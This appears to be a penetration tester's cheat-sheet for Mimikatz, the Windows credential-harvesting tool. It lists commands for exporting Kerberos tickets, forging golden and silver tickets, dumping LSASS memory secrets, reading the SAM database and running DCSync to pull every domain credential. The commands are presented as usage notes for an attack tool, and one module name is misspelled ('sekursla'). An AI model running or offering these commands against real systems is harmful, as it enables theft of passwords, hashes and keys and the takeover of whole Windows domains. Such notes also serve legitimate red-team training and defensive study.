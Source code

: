 - Used to harvest credentials from a windows machine.
- Has two additional components:
	- `Mimidrv`: driver that interacts with windows kernel
	- `Mimilib`: Bypass applocker, auth package/SSP etc.
- Runs with:
	- `Administrator` with `Privilege::debug` mode
	- `SYSTEM` privilege

# Kerberos
### ask
```bash
kerberos::ask
```
### list
- Lists or exports TGTs and STs from the current session
```powershell
kerberos::list # Lists the tickets
kerberos::list /export # Export the tickets to files
```
### purge
- purge all TGTs and STs from the current session.
```powershell
kerberos::purge
```
### tgt
- Prints information about the TGT from current session
```powershell
kerberos::tgt
```
### golden
[[Active Directory/Initial Foothold/Kerberos#Golden Tickets|Golden Tickets]]
- Create golden tickets from krbtgt's NTLM hash or Kerberos keys.
### silver
- Create silver ticket from a service's NTLM hash or Kerberos keys.

# SekurLSA
Dumps keys, password hashes, pin codes from protected memory of lsass.exe proccess.
Rights required:
- SYSTEM
- Administrator with debug privilege (privilege::debug)
### backupkeys
- get backup master keys.
```powershell
sekurlsa::backupkey
```
### credman
- Lists credential manager
```powershell
sekurlsa::credman
```
### dpapi
[[DPAPI]]
- Lists cached master keys
```powershell
sekurlsa::dpapi
```
### ekeys
Lists kerberos encryption keys
```powershell
sekursla::ekeys
```
# LSAdump
### sam
- Dumps the sam database directory from memory or offline using the sam and system registry hives.
```powershell
# On target machine
lsadump::sam
# Using system and sam hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
### dcsync
- Perform dc-sync on the domain controller to dump ntds credentails, keys etc.
```powershell
# Dump credential of a specidic user
lsadump::dcsync /domain:mydomain.local /user:dr.dragon
# Dump all credentials
lsadump::dcsync /domain:mydomain.local /all
```